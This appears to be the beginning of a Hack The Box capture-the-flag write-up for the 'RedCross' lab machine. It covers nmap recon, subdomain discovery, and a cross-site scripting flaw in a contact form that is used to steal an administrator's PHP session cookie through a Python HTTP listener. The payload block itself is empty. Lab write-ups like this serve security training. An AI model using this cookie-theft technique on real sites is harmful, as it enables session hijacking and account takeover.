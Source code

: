```yaml
---
title: 'Hack The Box - Writeup'
subtitle: 'RedCross'
author: 'Patrick Hener'
date: \today{}
documentclass: scrartcl
pandoc-latex-color:
  - classes: [command]
    color: blue
---
```


\renewcommand*\contentsname{Table of Content}
\pagebreak
\tableofcontents
\pagebreak


# Recon

## nmap

```sh
Discovered open port 80/tcp on 10.10.10.113
Discovered open port 22/tcp on 10.10.10.113
Discovered open port 443/tcp on 10.10.10.113
```

## Browser

Navigating to the page you will notice you have to add `intra.redcross.htb` to your `/etc/hosts` file.
After that the http port 80/tcp redirects to https tcp/443. You will be presented with a login form.

Searching for other usual subdomains you will discover `admin.redcross.htb`.

There is a contact form which is vulnerable to cross-site scripting. With the attack vector:

```html
```

and a listener on your attacker box like:

`sudo python -m http.server 80`

you can get the admins' php cookie.

## Gobuster

You may discover `https://admin.redcross.htb/phpmyadmin/index.php` if you are lucky.

What you wanna find is `https://intra.redcross.htb/documentation/account-signup.pdf` which will reveal details of creating a user account.
